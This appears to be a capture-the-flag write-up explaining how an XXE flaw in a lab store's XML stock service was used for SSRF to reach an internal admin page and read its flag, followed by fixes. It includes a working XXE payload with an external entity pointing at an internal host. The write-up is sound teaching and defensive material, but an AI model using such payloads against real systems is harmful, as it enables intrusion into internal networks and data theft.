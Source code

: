 # XXE SSRF CHALLENGE SOLUTION
## Overview
This challenge requires to connect to a private server, situated in a network and accessible only by hosts on that network, to find a flag.
To find the flag I sent a request to an XXE vulnerable server situated in the network to perform a SSRF attack to the target server.

## Vulnerability
XML store1 and XML store2 are vulnerable to XXE attack that lets the attacker perform requests from them.
Moreover Admin app doesn't use a strong authentication mechanism.

## Attack
From the page [http://localhost:5000/store?product_type=kimono](http://localhost:5000/store?product_type=kimono) of the central store, I saw (using `network` tab of Mozilla browser) that several JQuery requests went from my browser to XML Store1 and XML Store2 ([http://localhost:5001/stocks](http://localhost:5001/stocks) and [http://localhost:5002/stocks](http://localhost:5002/stocks)).  
There are two types of requests:
- OPTIONS requests, that are preflight requests (see: [https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)).
- POST requests that have an xml body.

```xml
<?xml version='1.0' encoding='utf-8'?><stocks><productID>1</productID></stocks>
```
I started to play with that xml body to exploit the XXE vulnerability.

First of all I used postman to send a POST request to [localhost:5002/stocks](localhost:5002/stocks) with the body above (setting body type: raw-xml).
XML server2 responded with body: `499`.

Then I sent a request with the body:
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://172.200.1.21:8080/"> ]>
<stocks>
<productID>&xxe;</productID>
</stocks>
```
Remember that `http://172.200.1.21:8080/` is the url of Admin app.
XML server1 responded with a 400 response with the following body:
```
Invalid <productID> content: <html>
<body>
<nav>
  <a>Home</a> |
  <a>Info</a> |
  <a>Contacts</a>
</nav>

<h1>Welcome Admin</h1>

<p>No auth needed, we know you are in our network</p>

<p>flg{Do_No7_tRuS7_HomEM4de_P4RSeR}</p>
</body>
</html>
```

You can notice that the response included the page (with the flag) that is served by Admin app, in fact the XML parser of XML store1 tried to resolve the external entity &xxe; sending a request to `http://172.200.1.21:8080/` and put the response value into the XML code. Then the XML Store1 server didn't recognize the <productID> element content and sent me a 400 response including that content into the body.

## Fix
The main vulnerabilities in this challenge are:
- Weak authentication mechanism of Admin app
- XXE vulnerable parser in XML Store1 and XML Store2

The first can be fixed implementing a simple Authentication mechanism (example: require login).
The second can be fixed disablig external entities manually (I used SAXParserFactory as a parser, see: [https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)) or use another parser, in fact in other libraries of high level languages (like python), external entities are disabled by default.

